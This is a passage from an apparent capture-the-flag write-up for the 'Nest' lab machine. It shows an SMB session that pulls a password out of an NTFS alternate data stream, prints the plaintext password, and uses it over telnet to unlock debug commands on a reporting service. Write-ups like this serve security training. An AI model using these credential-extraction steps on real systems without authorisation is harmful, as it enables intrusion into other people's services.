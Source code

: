 If we go back to the password file we found with the exe it looks like an empty file, however that’s not entirely true. Lets go back to the file on the smb drive and view again:

```
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt" 
altname: DEBUGM~1.TXT
create\_time: Thu Aug 8 07:06:12 PM 2019 EDT
access\_time: Thu Aug 8 07:06:12 PM 2019 EDT
write\_time: Thu Aug 8 07:08:17 PM 2019 EDT
change\_time: Thu Aug 8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```

We can see now that the password was simply hidden on a different data [stream](https://www.howtogeek.com/howto/windows-vista/stupid-geek-tricks-hide-data-in-a-secret-text-file-compartment/) , hence the appearance of looking empty. Make sure when you do download the file that you specify the stream, otherwise it will download the file but strip the stream. Like the following:

```
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password:$DATA"
```

Once downloaded, we can view the file can see the debug password inside.

```
root@kali:~/htb/nest# cat Debug\ Mode\ Password.txt\:Password\:\$DATA 
WBQ201953D8w
```

We entered in the password on the HQK service on port 4386 and we get some additional commands to play with:

```
root@kali:~/htb/nest# telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>Debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>Help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory\_Name>
RUNQUERY <Query\_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query\_ID>
```
